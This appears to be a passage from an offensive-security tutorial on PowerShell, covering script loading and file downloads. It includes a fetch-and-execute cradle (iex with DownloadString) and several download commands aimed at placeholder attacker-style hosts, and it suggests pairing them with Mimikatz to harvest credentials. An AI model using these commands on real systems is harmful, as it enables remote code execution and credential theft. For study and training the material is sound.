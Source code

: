 To do it, let's first change the execution policy like we learned to do above. Then, we have to do the
following:

```powershell
. .\Invoke-OurScript.ps1
Import-Module Invoke-OurScript.ps1
```

The script is loaded and ready to be executed. 

### File downloads

Downloading files in Powershell is as easy to do as in Linux. There are various methods to do so.

```powershell
iex (New-Object Net.WebClient).DownloadString('http://linktothescript.com/BaddieStuff.ps1')
BaddieStuff -Command '"hacktheworld"'

Invoke-WebRequest -URI http://linktoscript.haxxor/CorpoHack.ps1 -OutFile C:\Path\To\Save\File

(New-Object System.Net.WebClient).DownloadFile("http://hacktheworld.com/file", "C:\Path\To\File")

Start-BitsTransfer -Source "http://hackthland.com/scriptor.ps1" -Destination "C:\Where\To\Save"
```

I'm sure there are other ways to download files, but this are the ones I found.

Combine this with Mimikatz or other tools to get credentials or something else. 
